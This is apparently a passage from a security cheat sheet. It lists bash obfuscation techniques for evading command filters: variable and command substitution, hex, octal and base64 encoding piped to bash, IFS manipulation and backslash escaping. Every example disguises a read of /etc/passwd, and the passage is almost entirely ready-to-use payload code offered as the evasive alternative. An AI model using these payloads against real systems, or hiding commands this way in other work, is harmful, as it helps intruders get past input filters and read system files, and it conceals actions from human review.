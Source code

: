 - **Variable Substitution**:
  ```bash
  # Instead of:
  cat /etc/passwd
  
  # Use:
  a='c'; b='a'; c='t'; d=' '; e='/etc/passwd'; $a$b$c$d$e
  ```

- **Command Substitution**:
  ```bash
  # Instead of:
  cat /etc/passwd
  
  # Use:
  $(echo c)$(echo a)$(echo t) $(echo /etc/passwd)
  ```

- **Hex/Octal Encoding**:
  ```bash
  # Instead of:
  cat /etc/passwd
  
  # Use hex encoding:
  $(echo -e "\x63\x61\x74") $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
  
  # Or use octal encoding:
  $(echo -e "\143\141\164") $(echo -e "\57\145\164\143\57\160\141\163\163\167\144")
  ```

- **Base64 Encoding**:
  ```bash
  # Encode a command
  echo "cat /etc/passwd" | base64
  # Y2F0IC9ldGMvcGFzc3dkCg==
  
  # Execute encoded command
  echo "Y2F0IC9ldGMvcGFzc3dkCg==" | base64 -d | bash
  ```

- **IFS (Internal Field Separator) Manipulation**:
  ```bash
  # Instead of:
  cat /etc/passwd
  
  # Use:
  IFS=_;c=c_a_t_;p=/_e_t_c_/_p_a_s_s_w_d;$c $p
  ```

- **Backslash Escaping**:
  ```bash
  # Instead of:
  cat /etc/passwd
  
  # Use:
  c\a\t /\e\t\c/\p\a\s\s\w\d
  ```
